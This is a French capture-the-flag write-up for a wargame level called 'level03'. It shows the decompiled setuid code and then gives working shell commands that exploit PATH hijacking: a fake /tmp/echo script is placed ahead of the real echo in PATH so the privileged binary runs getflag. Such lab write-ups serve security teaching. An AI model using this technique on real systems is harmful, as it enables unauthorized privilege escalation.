

# Level03 :

**En arrivant sur la session on voit tout de suite un binaire "level03" a la racine et si on tente de le lancer on y voit "Exploit me" d'affiche**
**En utilisant ghidra on peut retrouver le code source de ce fichier binaire (voir level03.c)**
**on y voit une faille avec la partie ci-dessous qui donne les permissions d'execution du programme level03 au programme qu'il va executer dans les lignes suivantes.**
```c
__rgid = getegid();
__ruid = geteuid();
setresgid(__rgid,__rgid,__rgid);
setresuid(__ruid,__ruid,__ruid);
```
**puis un lancement de la commande "echo" depuis les variables d'environement, a ce stade la il suffit de faire pointer la commande echo vers un script que nous aurions developpe au prealable**

**On commence par creer le fichier "echo" dans le dossier "tmp"**
`printf '#!/bin/bash\ngetflag\n' > /tmp/echo`

**On lui ajoute les permissions d'execution**
`chmod +x /tmp/echo`

**Et enfin on l'ajoute a la variable d'environnement**
`export PATH="/tmp:$PATH"`

**Il ne reste plus qu'a l'executer:**
`./level03`

